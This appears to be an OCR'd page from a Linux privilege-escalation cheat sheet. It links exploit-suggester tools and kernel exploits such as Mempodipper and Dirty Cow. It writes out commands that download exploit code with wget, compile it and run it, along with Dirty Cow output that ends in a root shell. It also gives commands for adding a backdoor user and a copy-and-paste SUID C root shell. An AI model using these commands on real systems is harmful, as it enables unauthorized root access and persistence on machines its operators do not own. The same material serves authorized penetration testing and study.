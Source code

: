 -   Linux Privilege Exploit Suggester  
    [*https://github.com/PenturaLabs/Linux\_Exploit\_Suggester*](https://github.com/PenturaLabs/Linux_Exploit_Suggester)

-   Linux post exploitation enumeration and exploit checking tools  
    [*https://github.com/reider-roque/linpostexp*](https://github.com/reider-roque/linpostexp)

-   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel &lt;= 2.6.36-rc8  
    [*https://www.exploit-db.com/exploits/15285/*](https://www.exploit-db.com/exploits/15285/)

-   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 &lt; 3.2.2 (Gentoo
    / Ubuntu x86/x64)  
    [*https://git.zx2c4.com/CVE-2012-0056/about/*](https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056  
    wget -O exploit.c <http://www.exploit-db.com/download/18411>  
    gcc -o mempodipper exploit.c  
    ./mempodipper

-   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux
    Kernel &lt;= 3.19.0-73.8  
    [*https://dirtycow.ninja/*](https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18,
    2016  
    ./cow32  
    DirtyCow root privilege escalation  
    Backing up /usr/bin/passwd.. to /tmp/bak  
    Size of binary: 45420  
    Racing, this may take a while..  
    thread stopped  
    thread stopped  
    /usr/bin/passwd is overwritten  
    Popping root shell.

-   Run a command as a user other than root  
    sudo -u waldo /usr/bin/vim
    /etc/apache2/sites-available/000-default.conf

-   Add a user or change a password  
    /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
    echo thePassword | passwd haxzor --stdin

-   Local Privilege Escalation Exploit in Linux

    -   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a
        superuser, you can update the UID / GID and shell as required.  
          
        below are some quick copy and paste examples for various
        shells:  
          
        SUID C Shell for /bin/bash  
          
        int main(void){  
        setresuid(0, 0, 0);  
        system("/bin/bash");  
        }  
          